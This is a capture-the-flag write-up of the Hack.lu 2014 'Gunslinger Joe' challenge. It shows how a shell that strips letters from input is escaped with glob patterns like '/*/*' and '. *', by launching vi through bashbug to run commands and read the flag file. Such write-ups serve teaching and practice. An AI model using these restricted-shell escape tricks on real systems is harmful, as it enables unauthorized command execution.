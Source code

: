 # Hack.lu CTF 2014: Gunslinger Joe’s private Terminal

**Category:** Misc
**Points:** 50
**Author:** cutz
**Description:**

> Gunslinger Joe has a pretty bad memory and always forgets the password for his private terminals! That’s why he always uses his username as password but also makes sure that absolutely no one else who knows his name can interact with his secure terminal. Wouldn't it be super embarrassing for him to prove him wrong?
>
> SSH: gunslinger_joe@wildwildweb.fluxfingers.net
> PORT: 1403

## Write-up

Let’s connect to the SSH server using `gunslinger_joe` as both the username and password, as stated in the challenge description:

```bash
$ ssh -p 1403 gunslinger_joe@wildwildweb.fluxfingers.net
gunslinger_joe@wildwildweb.fluxfingers.net's password:

           ,'-',
          :-----:
      (''' , - , ''')
      \   ' .  , `  /
       \  '   ^  ? /
        \ `   -  ,'
         `j_ _,'       Gunslinger Joe's
    ,- -`\ \  /f        Private Terminal
  ,-      \_\/_/'-
 ,                 `,
 ,          Joe      ,
      /\          \
|    /             \   ',
,   f  :           :`,  ,
<...\  ,           : ,- '
\,,,,\ ;           : j  '
 \    \            :/^^^^'
  \    \            ; ''':
    \   -,         -`.../
     '    - -,`,--`
      \_._'-- '---:

$ id
$ ls
$ ls -lsa
: -: command not found
```

So we indeed have access to a shell, but something strange is going on… It seems like some characters are being filtered.

Entering `-` reveals that our input is passed as an argument to `bash`:

```bash
$ -
: -
: invalid option
Usage:  bash [GNU long option] [option] ...
  bash [GNU long option] [option] script-file ...
GNU long options:
  --debug
  --debugger
  --dump-po-strings
  --dump-strings
  --help
  --init-file
  --login
  --noediting
  --noprofile
  --norc
  --posix
  --rcfile
  --restricted
  --verbose
  --version
Shell options:
  -ilrsD or -c command or -O shopt_option   (invocation only)
  -abefhkmnptuvxBCHP or -o option
```

Realizing that causing a syntax error results in a helpful error message, I entered all printable ASCII characters to see which ones would be removed:

```
$ () { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~'
: -c: line 0: syntax error near unexpected token `)'
: -c: line 0: `() { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~''
```

So yeah, all alphabetic characters are removed from the input. Entering `*` reveals that there’s a file named `FLAG` in the current working directory:

```bash
$ *
: ./FLAG: Permission denied
```

Let’s check the root directory:

```bash
$ /*
: /bin: Is a directory
```

Hmm, what would the first item in `/bin/*` be?

```bash
$ /*/*
```

Yay! `/*/*` expands to `/bin/bashbug`, which causes `$EDITOR` — in this case, `vi` — to open. From within `vi` we can easily run arbitrary commands:

```
:!id
uid=1000(gunslinger_joe) gid=1000(gunslinger_joe) groups=1000(gunslinger_joe)

:!cat FLAG
flag{joe_thought_youd_suck_at_bash}
```

The flag is `flag{joe_thought_youd_suck_at_bash}`.

## Other write-ups and resources

# A shorter solution

A shorter solution than the one depicted above, is the following.
Entering the character `.` displayed the error

    $ .
    : line 0: .: filename argument required
    .: usage: . filename [arguments]

That looks like `.` is interpreted as a command. Earlier having figured out that `*` was a working way to iterate all files in the current directory, the following command yielded the right result.

    $ . *
    ./FLAG: line 1: flag{joe_thought_youd_suck_at_bash}: command not found

It's still an error, but at least it delivered.